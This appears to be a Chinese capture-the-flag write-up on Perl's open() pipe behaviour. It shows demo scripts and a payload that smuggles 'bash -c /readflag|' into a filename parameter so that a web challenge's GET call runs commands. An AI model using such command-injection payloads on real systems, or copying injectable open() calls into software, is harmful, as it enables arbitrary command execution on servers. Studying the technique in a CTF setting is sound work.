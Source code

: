 > 在Perl中可以用open或者sysopen函数来打开文件进行操作，这两个函数都需要通过一个文件句柄（即文件指针）来对文件进行读写定位等操作

1：读：open(文件句柄，"<文件名")/open(文件句柄，"文件名")，前提文件必须已经存在，否则会返回0，出错信息在$!中。
2：写：open(文件句柄，">文件名")，文件如果不存在，那么创建之，如果存在，内容被清空，长度截为0，$!中有出错信息。

```linux
root@npfs:~/test# cat a.pl 
open(FD, "|id");
print <FD>;
root@iZ285ei82c1Z:~/test# perl a.pl 
uid=0(root) gid=0(root) groups=0(root)

root@npfs:~/test# cat test.pl 
open(FD, "whoami|");
print <FD>;
root@iZ285ei82c1Z:~/test# perl test.pl 
moxiaoxi
```



当GET使用file协议的时候就会调用到perl的open函数

```
Perl saw that your “file” ended with a “pipe” (verticalbar) character. So it interpreted the “file” as a command to be executed, and interpreted the command’s output as the “file”'s contents. The command is “who” (which prints information on currently logged-in users). If you execute that command, you will see that the output is exactly what the Perl program gave you.

翻译过来意思是：
perl函数看到要打开的文件名中如果以管道符（键盘上那个竖杠）结尾，就会中断原有打开文件操作，并且把这个文件名当作一个命令来执行，并且将命令的执行结果作为这个文件的内容写入。这个命令的执行权限是当前的登录者。如果你执行这个命令，你会看到perl程序运行的结果。
```



**perl脚本中GET命令执行漏洞：（前提是文档需要存在，若存在，才会触发最终的代码执行）**

```perl
GET ’file:id|'
touch 'id|'
GET ’file:id|'
uid=0(root) gid=0(root) groups=0(root)
```

**在perl下，如果open的第二个参数（path）可控，我们就能进行任意代码执行。综合看起来像是一个把文件名拼接入命令导致的命令执行。**

payload:

```
首先得满足前面的文件存在, 才会继续到open语句, 所以在执行命令前得保证有相应的同名文件:
?url=(任意)&filename=bash -c /readflag| 先新建一个名为“bash -c /readflag|”的文件
?url=file:bash -c /readflag|&filename=aaa 再利用GET执行bash -c /readflag保存到aaa文件
访问sandbox/md5/aaa（得到flag）
```



其实如果对于这个open不理解的化=话还有更简单的做法，直接在自己的vps根目录下写一个木马文件
